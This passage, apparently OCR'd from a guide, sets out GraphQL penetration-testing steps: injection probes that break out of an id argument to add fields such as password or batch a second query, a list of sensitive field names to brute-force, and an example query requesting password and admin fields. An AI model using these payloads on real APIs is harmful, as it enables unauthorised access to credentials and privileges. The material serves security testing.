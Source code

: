**If Enabled**:
- Download full schema
- Identify all queries, mutations, types, fields
- Look for sensitive fields: `password`, `admin`, `secret`, `internal`, etc.

### Step 3: Test for Injection

**Basic Tests**:

```graphql
# 1. Add single quote
id: 123'

# Expected: Syntax error if vulnerable

# 2. Try closing parenthesis
id: 123)

# Expected: Different error or behavior

# 3. Try adding field
id: 123) { email password

# Expected: Access to password field if vulnerable

# 4. Try batch query
id: 123) { email } q2:user(id:1

# Expected: Response with both q1 and q2 data
```

### Step 4: Field Brute-Forcing

**Common Sensitive Fields to Test**:
```
password
passwordHash
accessLevel
role
admin
isAdmin
permissions
token
apiKey
secret
secretKey
internalId
userId
```

**Technique**:
```graphql
query {
  user(id: 123) {
    id
    email
    password      # Try this
    admin         # Try this
    accessLevel   # Try this
    # ... keep adding fields from introspection
  }
}
```
